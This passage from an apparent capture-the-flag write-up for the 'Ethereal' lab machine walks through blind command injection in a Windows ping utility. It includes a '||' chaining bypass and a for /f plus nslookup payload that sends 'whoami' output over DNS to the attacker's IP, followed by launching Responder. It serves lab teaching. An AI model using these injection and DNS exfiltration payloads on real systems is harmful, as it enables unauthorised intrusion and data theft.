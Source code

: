 So putting our developer hats on to try and think like the defender and how the background application logic works, they know about about command chaining and input bypassing, so what they do is add another layer of protection so that when a command is sent to the application, it runs the command given, or sends them off as background Tasks, and as soon as one returns a successful exit code, it will stop processing all other commands.

So in our current example, `ping 127.0.0.1` runs, returns a success and the application doesn't bother trying the `ping 10.10.14.22`, because it has already done one successful command. With this theory in place, we need a way to test it. To do this, we need to break the first ping command and use the chaining characters `||` so that when the first command fails, the second command runs:
![230719767.png]({{site.baseurl}}/Images/Ethereal/230719767.png)

We can see that the input `|| ping 10.10.14.22` gets us the command chaining result we are looking for.

Now that we have our syntax, we need a way to run commands against the machine and a way for us to see the output of those commands on our attacking machine.

Because we can currently only see network traffic, after researching a bunch of Windows networking tools we come across [nslookup](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/nslookup)

Nslookup has a syntax to allow us to look for a specified domain against a specific DNS Server (`nslookup [DomainToFind] [NameServerToQuery]`)

We can try this command using our attacking machine as the NameServerToQuery and see if we can get the user inputted DomainToFind logged with tcpdump:
![230719782.png]({{site.baseurl}}/Images/Ethereal/230719782.png)

Result! Now all we need to do is find a way within Windows cmd to echo the result of one command into another command (this is different to command chaining and output redirection)

Researching around we come across the [for f command](https://ss64.com/nt/for_f.html)

Practicing the correct syntax on a local Windows machine we finally get something that outputs:
```
C:\Users\ThoseGuys>for /f %i in ('whoami') do echo %i

C:\Users\ThoseGuys>echo ThoseGuysPC\ThoseGuys
ThoseGuysPC\ThoseGuys
```

Combining this command with our nslookup we finally have some code execution we are able to see the results of:
```
|| for /f %i in ('whoami') do nslookup %i 10.10.14.22
```

![230818094.png]({{site.baseurl}}/Images/Ethereal/230818094.png)

What we have achieved so far is called Blind Command Execution (similar to our blind sql injection on SecNotes)

Using tcpdump is super messy, the output is hard to follow and poorly formatted. Another tool that is capable of performing a similar task is [responder](https://github.com/SpiderLabs/Responder)
```
root@kali: responder -I tun0
```
